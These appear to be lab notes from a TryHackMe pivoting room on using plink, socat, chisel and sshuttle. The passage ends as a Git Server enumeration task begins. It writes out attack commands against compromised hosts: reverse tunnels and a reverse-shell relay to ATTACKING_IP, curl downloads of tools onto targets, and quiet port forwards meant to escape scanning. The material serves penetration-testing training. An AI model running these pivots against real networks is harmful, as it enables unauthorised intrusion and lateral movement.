

## plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client.  Now that Windows comes with its own inbuilt SSH client, plink is less  useful for modern servers; however, it is still a very useful tool, so  we will cover it here.

Generally speaking, Windows servers are  unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:
`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get  around the warning message that the target has not connected to this  host before. 

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80  back to port 8000 our own attacking machine (172.16.0.20), we could use  this command:
`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly  the same way as with the Reverse port forwarding taught in the previous  task (despite the private key being converted, it will still work  perfectly with the same public key we added to the authorized_keys file  before).

***Note:** Plink is notorious for going out of  date quickly, which often results in failing to connect back. Always  make sure you have an up to date version of the* `.exe`*. Whilst there is a copy pre-installed on Kali at* `/usr/share/windows-resources/binaries/plink.exe`*, downloading a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible.*

## Socat

Socat is not just great for fully stable Linux shells[[1\]](https://tryhackme.com/room/introtoshells), it's also superb for port forwarding. The one big disadvantage of socat (aside from the frequent problems  people have learning the syntax), is that it is very rarely installed by default on a target. That said, static binaries are easy to find for  both [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download). Bear in mind that the Windows version is unlikely to bypass Antivirus  software by default, so custom compilation may be required. Before we begin, it's worth noting: if you have completed the [What the Shell?](https://tryhackme.com/room/introtoshells) room, you will know that socat can be used to create encrypted  connections. The techniques shown here could be combined with the  encryption options detailed in the shells room to create encrypted port  forwards and relays. To avoid overly complicating this section, this  technique will not be taught here; however, it's well worth  experimenting with this in your own time.

Whilst the  following techniques could not be used to set up a full proxy into a  target network, it is quite possible to use them to successfully forward ports from both Linux and Windows compromised targets. In particular, socat makes a very good relay: for example, if you are attempting to get a shell on a target  that does not have a direct connection back to your attacking computer,  you could use socat to set up a relay on the currently compromised  machine. This listens for the reverse shell from the target and then  forwards it immediately back to the attacking box:



It's best to think of socat as a way to join two things together -- kind of  like the Portal Gun in the Portal games, it creates a link between two  different locations. This could be two ports on the same machine, it  could be to create a relay between two different machines, it could be  to create a connection between a port and a file on the listening  machine, or many other similar things. It is an extremely powerful tool, which is well worth looking into in your own time.

Generally  speaking, however, hackers tend to use it to either create reverse/bind  shells, or, as in the example above, create a port forward.  Specifically, in the above example we're creating a port forward *from* a port on the compromised server *to* a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a  target inside the network, or creating a direct link between a listening port on the *attacking machine* with the service on the internal  server. This latter application is especially useful as it does not  require opening a port on the compromised server.

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box. 

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Socat binary):

```
sudo python3 -m http.server 80
```

Then, on the target:
`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`



With the binary uploaded, let's have a look at each of the above scenarios in turn.

***Note:** This uploads the socat binary with your username in the title; however, the  example commands given in the rest of this task will refer to the binary simply as* `socat`*.*

------

**Reverse Shell Relay**

In this scenario we are using socat to create a relay for us to send a  reverse shell back to our own attacking machine (as in the diagram  above). First let's start a standard netcat listener on our attacking  box (`sudo nc -lvnp 443`). Next, on the compromised server, use the following command to start the relay:
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

***Note:** the order of the two addresses matters here. Make sure to open the listening port first,* then *connect back to the attacking machine.*

From here we can then create a reverse shell to the newly opened port 8000  on the compromised server. This is demonstrated in the following  screenshot, using netcat on the remote server to simulate receiving a  reverse shell from the target server:



A brief explanation of the above command:

- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.

In this way we can set up a relay to send reverse shells through a  compromised system, back to our own attacking machine. This technique  can also be chained quite easily; however, in many cases it may be  easier to just upload a static copy of netcat to receive your reverse  shell directly on the compromised server.

------

**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply  to open up a listening port on the compromised server, and redirect  whatever comes into it to the target server. For example, if the  compromised server is 172.16.0.5 and the target is port 3306 of  172.16.0.10, we could use the following command (on the compromised  server) to create a port forward:
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

This opens up port 33060 on the compromised server and redirects the input  from the attacking machine straight to the intended target server,  essentially giving us access to the (presumably MySQL Database) running  on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one  connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our  connection directly relayed to our intended target of 172.16.0.10:3306.

------

**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on  the compromised server, which could potentially be spotted by any kind  of host or network scanning. Whilst the risk is not *massive*, it  pays to know a slightly quieter method of port forwarding with socat.  This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What  goes into one of them will come out of the other. For this reason, port  8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`

This makes a connection between our listening port 8001 on the attacking  machine, and the open port of the target server. To use the fictional  network from before, we could enter this command as:
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &`

This would create a link between port 8000 on our attacking machine, and  port 80 on the intended target (172.16.0.10), meaning that we could go  to `localhost:8000` in our attacking machine's web browser  to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through  what happens when you try to access the webpage in your browser:

- The request goes to `127.0.0.1:8000`
- Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to the socat process we ran on the  compromised server, meaning that anything coming out of port 8001 gets  sent to the compromised server, where it gets relayed to port 80 on the  target server.

The process is then reversed when the target sends the response:

- The response is sent to the socat process on the compromised server. What  goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
- Anything that  goes into port 8001 on our attacking machine comes out of port 8000 on  our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!

------

Finally, we've learnt how to *create* backgrounded socat port forwards and relays, but it's important to also know how to *close* these. The solution is simple: run the `jobs` command in your terminal, then kill any socat processes using `kill %NUMBER`:





## Chisel

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a  tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can  be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality  as the standard SSH proxying / port forwarding we covered earlier;  however, the fact it doesn't require SSH access on the compromised  target is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:



You must have an appropriate copy of the chisel binary on *both the attacking machine and the compromised server.* Copy the file to the remote server with your choice of file transfer  method. You could use the webserver method covered in the previous  tasks, or to shake things up a bit, you could use SCP:
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`

------

The chisel binary has two modes: *client* and *server*. You can access the help menus for either with the command: `chisel client|server --help`
e.g:


We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read  through the help pages for the tool for this reason.*


------

***Reverse SOCKS Proxy:***
*Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects *back* from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use a command that looks something like this:
`./chisel server -p LISTEN_PORT --reverse &`

This sets up a listener on your chosen `LISTEN_PORT`. 

On the compromised host, we would use the following command:
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

This command connects back to the waiting listener on our attacking box,  completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.



Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to *remotes* (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has  been started in reverse mode. It essentially tells the chisel client  that the server anticipates the proxy or port forward to be made at the  client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once  again, reading the chisel help pages for more information is  recommended. 

***Forward SOCKS Proxy:***
*Forward proxies are rarer than reverse proxies for the same reason as reverse  shells are more common than bind shells; generally speaking, egress  firewalls (handling outbound traffic) are less stringent than ingress  firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:
`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

**Proxychains Reminder:**
When sending data through either of these proxies, we would need to set the  port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```


**Note:** The above configuration is for a reverse SOCKS proxy -- as mentioned  previously, the proxy opens on port 1080 rather than the specified  listening port (1337). If you use proxychains with a forward proxy then  the port should be set to whichever port you opened (1337 in the above  example).

------

Now that we've seen how to use chisel to  create a SOCKS proxy, let's take a look at using it to create a port  forward with chisel.

***Remote Port Forward:***
A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to. 
The command to connect back is slightly different this time, however:
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port  forward method, where we specify the local port to open, the target IP,  and the target port, separated by colons. Note the distinction between  the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.

To use an old example, let's assume that our own IP is 172.16.0.20, the  compromised server's IP is 172.16.0.5, and our target is port 22 on  172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222  on our attacking machine would be as follows:
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

Connecting back to our attacking machine, functioning as a chisel server started with:
`./chisel server -p 1337 --reverse & `

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

***Local Port Forward:***
As with SSH, a local port forward is where we connect from our own  attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:
`./chisel server -p LISTEN_PORT`

We now connect to this from our attacking machine like so:
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

For example, to connect to 172.16.0.5:8000 (the compromised host running a  chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our  intended target), we could use:
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`


------

As with the backgrounded socat processes, when we want to destroy our chisel connections we can use `jobs` to see a list of backgrounded jobs, then `kill %NUMBER` to destroy each of the chisel processes.

***Note:** When using Chisel on Windows, it's important to remember to upload it with a file extension of* `.exe` *(e.g.* `chisel.exe`*)!*



## sshuttle

Finally, let's take a look at our last tool of this section: [sshuttle](https://github.com/sshuttle/sshuttle).

This tool is quite different from the others we have covered so far. It  doesn't perform a port forward, and the proxy it creates is nothing like the ones we have already seen. Instead it uses an SSH connection to  create a tunnelled proxy that acts like a new interface. In short, it  simulates a VPN, allowing us to route our traffic through the proxy *without the use of proxychains* (or an equivalent). We can just directly connect to devices in the  target network as we would normally connect to networked devices. As it  creates a tunnel through SSH (the secure shell), anything we send  through the tunnel is also encrypted, which is a nice bonus. We use  sshuttle entirely on our attacking machine, in much the same way we  would SSH into a remote server. 

Whilst this sounds like an incredible upgrade, it is not without its drawbacks. For a start, sshuttle only works on Linux targets. It also requires access to the compromised server via SSH, and Python also needs to be installed on the server. That said, with SSH  access, it could theoretically be possible to upload a static copy of  Python and work with that. These restrictions do somewhat limit the uses for sshuttle; however, when it *is* an option, it tends to be a superb bet!

First of all we need to install sshuttle. On Kali this is as easy as using the `apt` package manager:
`sudo apt install sshuttle`

------

The base command for connecting to a server with sshuttle is as follows:
`sshuttle -r username@address subnet `

For example, in our fictional 172.16.0.x network with a compromised server  at 172.16.0.5, the command may look something like this:
`sshuttle -r user@172.16.0.5 172.16.0.0/24`

We would then be asked for the user's password, and the proxy would be  established. The tool will then just sit passively in the background and forward relevant traffic into the target network.

Rather than specifying subnets, we could also use the `-N` option which attempts to determine them automatically based on the compromised server's own routing table:
`sshuttle -r username@address -N`

Bear in mind that this may not always be successful though!

As with the previous tools, these commands could also be backgrounded by appending the ampersand (`&`) symbol to the end.

If this has worked, you should see the following line: `c : Connected to server.`

------

Well, that's great, but what happens if we don't have the user's password, or the server only accepts key-based authentication?

Unfortunately, sshuttle doesn't currently seem to have a shorthand for specifying a  private key to authenticate to the server with. That said, we can easily bypass this limitation using the `--ssh-cmd` switch.

This switch allows us to specify what command gets executed by sshuttle when trying to authenticate with the compromised server. By default this is  simply `ssh` with no arguments. With the 

`--ssh-cmd` switch, we can pick a different command to execute for authentication: say, `ssh -i keyfile`, for example!

So, when using key-based authentication, the final command looks something like this:
`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`

To use our example from before, the command would be:
`sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24`

------

**Please Note:** When using sshuttle, you may encounter an error that looks like this:
`client: Connected.client_loop: send disconnect: Broken pipeclient: fatal: server died with error code 255`

This can occur when the compromised machine you're connecting to is part of  the subnet you're attempting to gain access to. For instance, if we were connecting to 172.16.0.5 and trying to forward 172.16.0.0/24, then we  would be including the compromised server inside the newly forwarded  subnet, thus disrupting the connection and causing the tool to die.

To get around this, we tell sshuttle to exclude the compromised server from the subnet range using the `-x` switch.

To use our earlier example:
`sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`

This will allow sshuttle to create a connection without disrupting itself.



## Conclusion                            

The big take away from this section is: there are *many*  different ways to pivot through a network. Further research in your own  time is highly recommended, as there are a great many interesting  techniques which we haven't had time to cover here (for example, on a  fully rooted target, it's possible to use the installed firewall -- e.g. iptables or Windows Firewall -- to create entry points into an  otherwise inaccessible network. Equally, it's possible to set up a route manually in the routing table of your attacking machine to, routing  your traffic into the target network without requiring a proxy-tool like Proxychains or Foxyproxy). 

As a summary of the tools in this section:

- Proxychains and FoxyProxy are used to access a proxy created with one of the other tools
- SSH can be used to create both port forwards, and proxies
- plink.exe is an SSH client for Windows, allowing you to create reverse SSH connections on Windows
- Socat is a good option for redirecting connections, and can be used to create port forwards in a variety of different ways
- Chisel can do the exact same thing as with SSH portforwarding/tunneling, but doesn't require SSH access on the box
- sshuttle is a nicer way to create a proxy when we have SSH access on a target

# Git Server 

## Enumeration

It's time to put your newfound knowledge to the test!

Download a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true). Rename it to `nmap-USERNAME`, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing. 

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Nmap binary):

```
sudo python3 -m http.server 80
```

Then, on the target:

```
curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME
```



------

Now use the binary to scan the network. The command will look something like this:

```
./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME
```

You will need to substitute in your username, and the correct IP range. For example:

```
./nmap-MuirlandOracle -sn 10.200.72.1-255 -oN scan-MuirlandOracle
```

Here the `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.

Note that this would also work with CIDR notation (e.g. 10.x.x.0/24).

Use what you've learnt to answer the following questions!

***Note:** The host ending in* `.250` *is the OpenVPN server, and should be excluded from all answers. It is  not part of the vulnerable network, and should not be targeted. The same goes for the host ending in* `.1` *(part of the AWS  infrastructure used to create the network) -- this too is out of scope  and should be excluded from all answers.*



## Pivoting

